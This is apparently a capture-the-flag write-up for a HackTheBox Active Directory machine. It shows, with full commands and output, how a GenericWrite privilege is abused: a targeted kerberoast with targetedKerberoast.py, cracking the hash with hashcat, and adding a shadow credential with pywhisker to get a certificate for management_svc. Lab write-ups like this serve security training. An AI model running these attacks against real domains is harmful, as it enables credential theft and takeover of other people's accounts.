 ## Using GenericWrite to perform a Shadow Credential Attack
With the GenericWrite privilege we can either perform a targeted kerberoast attack or add a shadow credential which we can use to get the NTLM hash of the user. I prefer doing the kerberoast attack as it is quite fast, if the hash cracks we get easy access with the cracked password, if it fails well, we did not waste that much time trying.

```
targetedKerberoast.py -v -d 'certified.htb' -u 'judith.mader' -p 'judith09'
[*] Starting kerberoast attacks
[*] Fetching usernames from Active Directory with LDAP
[!] Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
```

We get an error saying that the server and our machine have a clock skew that is too large and the command fails. To fix this we can use the ntpdate command which steps our time to the server's. I like using `;` as it allows the second command to execute right after changing the time which is useful, as ntpdate only skip our time for a brief moment.

```
sudo ntpdate 10.10.11.41 ; python3 /home/madaf/HTB/labs/administrator/targetedKerberoast/targetedKerberoast.py -v -d 'certified.htb' -u 'judith.mader' -p 'judith09'

2025-05-30 03:26:56.795230 (+0200) +25200.322813 +/- 0.007315 10.10.11.41 s1 no-leap
CLOCK: time stepped by 25200.322813
[*] Starting kerberoast attacks
[*] Fetching usernames from Active Directory with LDAP
[+] Printing hash for (management_svc)
$krb5tgs$23$*management_svc$CERTIFIED.HTB$certified.htb/management_svc*$438a41d16f81a1d63ece594ca0babe97$6895594811531a7e3b3ea4b384f4bed7f74a202944587f23a64c056f3dd329e0cf93a1af67083a2b2da6bd0744703ecddf4304f451e768f9cc49e2fefd96b0d4b9a34ba3b7e7890f5d528c1fb33<SNIP>
```

We get the hash of management_svc user, we can use hashcat to try to crack the password. 

```
hashcat management_svc.hash /usr/share/wordlists/rockyou.txt -m 13100
<SNIP>
Session..........: hashcat                                
Status...........: Exhausted
<SNIP>
```

We are not able to crack the password but we can still perform the shadow credential attack. I found two ways to execute it one being much simpler than the other, but I will still show both methods.

#### PYWhisker method
We can use pywhisker to create a PFX file that we can use to authenticate as the management_svc user, we can install pywhikser by creating a python virtual environment and thne running `pip install pywhisker`, we can then use the following command to create the pfx file.

```
pywhisker -d "certified.htb" -u "judith.mader" -p "judith09" --target "management_svc" --action "add" --dc-ip 10.10.11.41
[*] Searching for the target account
[*] Target user found: CN=management service,CN=Users,DC=certified,DC=htb
[*] Generating certificate
[*] Certificate generated
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID: a4450c15-d229-f7dc-bd26-403598662816
[*] Updating the msDS-KeyCredentialLink attribute of management_svc
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[+] Saved PFX (#PKCS12) certificate & key at path: 0wOsyyZc.pfx
[*] Must be used with password: gyii9GUBQp5oPVgnnIAy
[*] A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools
```
